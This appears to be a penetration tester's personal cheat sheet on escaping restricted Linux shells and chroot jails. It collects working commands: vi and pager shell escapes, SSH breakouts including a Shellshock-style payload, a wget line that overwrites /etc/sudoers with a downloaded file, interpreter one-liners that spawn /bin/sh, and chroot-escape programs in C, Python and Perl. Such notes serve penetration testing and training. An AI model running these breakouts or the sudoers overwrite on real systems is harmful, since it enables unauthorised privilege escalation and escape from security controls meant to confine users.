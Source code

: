 # Linux Shell Escapes

These not the same as [Bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) or [Python Sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), if I faceplant into needing to research those they wioll get there own article from further research than just greta Hacktricks.

Check [GTFObins](https://gtfobins.github.io/), most of the weird one from [https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) are in here A

## Bash Jails

Enumerate -> commented Potential breakout
```bash
echo $SHELL # 
echo $PATH
echo /usr/bin/* # no ls no problem
# Check for operators:
# > >> < | & ; : ' " `
echo "bash -i" | tee script.sh # When 
env # 
export
pwd
which $bin 
${whoami} # shelle execution
# Editors?
 vi, nano, ed, vim 
# Programming/Scripting?
php, perl, python, ruby, lua
# Unwieldy list all commands - PSJoshi
compgen -c 
```

Vim and Vi - Beware requirements for ESP key in shell holding `Ctrl` and pressing `[` can work as alterative to access Vi(m) console.
```bash
set shell=/bin/sh
:shell
```

SSH breakout the bash
```bash
ssh -t user@$ip bash # Get directly an interactive shell
ssh user@$ip -t "bash --noprofile -i"
ssh user@$ip -t "() { :; }; sh -i "
ssh user@$ip -t "/bin/sh"
```

Bring your own sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

Declare
```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

Create a script that runs bash in a writable file in a writable directory
```bash
red /bin/bash
find / -perm -o w -type d 2>/dev/null
> w wx/path # Write /bin/bash in a writable and executable path
```

```bash
python -c 'import os; os.system("/bin/sh")'
php -r 'exec("sh -i");'
perl -e 'exec "/bin/sh"'
ruby -e 'exec "bin/sh"'
lua -e 'os.execute("bin/sh")'
awk 'BEGIN {system("/bin/sh")}'
find / -name foobar -exec /bin/sh \;
nmap --interactive
nmap> !sh
```


A [[Reverse-Shells-Listing]] that would call `/bin/bash` or `/bin/sh`?

Pagers like Less or More  - Hacknos, untested and not well documented - NullByte fixes that
```bash
# pager binaries
less $file.txt
more $file.txt
```

```
!'bash'
!/bin/bash
!/bin/sh
```

## Chroot 

If you are root inside a chroot you can escape creating another chroot. 

```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

Using Python
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```

Perl:
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

## References

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash)
[Rbash escapes Article from hacknos](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
[Nullbyte](https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/)
[PSJoshi ans comgen -c](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)
[exploit-db article](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)